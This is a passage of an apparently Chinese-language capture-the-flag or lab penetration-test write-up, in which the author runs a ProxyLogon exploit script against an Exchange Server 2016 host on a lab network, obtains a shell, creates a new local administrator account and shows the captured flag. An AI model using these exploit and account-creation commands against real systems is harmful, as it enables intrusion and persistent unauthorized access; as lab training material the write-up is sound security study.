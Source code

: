 然后发现 172.22.3.9 是发现是 Exchange Server 2016，直接打[ProxyLogon](https://github.com/hausec/ProxyLogon)

```plain
proxychains python2 proxylogon.py 172.22.3.9 administrator@xiaorang.lab
```

[![](assets/1707954377-76488a27c7f8a6498b81991db2d78c68.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204173803-17c19204-c341-1.png)

成功弹到 shell

```plain
net user lky qwer1234! /add
net localgroup administrators lky /add
```

添加一个用户登录成功（其实这里以及到 shell，就可以直接拿 flag，但是我对 cmd 的指令不是很熟悉，所以就开了一个用户做了，不过后面 dumphash 的时候还是要登录上用户的）

```plain
flag{5721ef82-5358-4745-8f00-ab9e06528868}
```
